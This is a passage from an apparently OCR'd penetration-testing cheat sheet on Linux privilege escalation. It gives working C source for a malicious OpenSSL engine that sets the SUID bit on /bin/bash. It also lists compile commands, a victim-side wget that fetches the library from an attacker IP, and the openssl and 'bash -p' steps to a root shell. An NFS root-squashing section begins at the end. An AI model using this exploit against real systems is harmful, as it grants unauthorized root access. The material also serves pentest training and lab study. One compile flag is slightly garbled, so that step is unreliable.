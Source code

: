 ```

  if (!ENGINE_set_id(e, engine_id)) {
    fprintf(stderr, "ENGINE_set_id failed\n");
    goto end;
  }
  if (!ENGINE_set_name(e, engine_name)) {
    printf("ENGINE_set_name failed\n");
    goto end;
  }
  setuid(0);
  setgid(0);
  system("chmod +s /bin/bash");    
  system("echo Complete!");
  ret = 1;
 end:
  return ret;
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()

```

Compile Code & Create .so file

```
gcc -c fPIC priv.c -o priv
gcc -shared -o priv.so -lcrypto priv
```

Victim

Download .so from Attacker

```
wget -O /tmp/priv.so http://10.10.10.10:9000/priv.so

// Replace IP & Port
```
Get Root

```
openssl req -engine /tmp/priv.so
/bin/bash -p
id && whoami
```

# NFS Root Squashing

Network File System (NFS): Network File System permits a user on a client machine to mount the shared files or directories over a network. NFS uses Remote Procedure Calls (RPC) to route requests between clients and servers. Although NFS uses TCP/UDP port 2049 for sharing any files/directories over a network.
